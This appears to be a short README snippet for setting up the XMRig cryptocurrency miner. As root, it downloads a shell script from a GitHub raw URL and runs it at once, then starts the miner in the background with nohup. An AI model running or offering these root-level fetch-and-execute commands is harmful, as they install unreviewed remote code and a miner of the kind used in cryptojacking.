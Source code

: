 # xmrig
sudo su

apt update -y

apt install screen -y

wget https://raw.githubusercontent.com/thehutgy/tuneTurtleMid/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh

nohup ./xmirg &



top



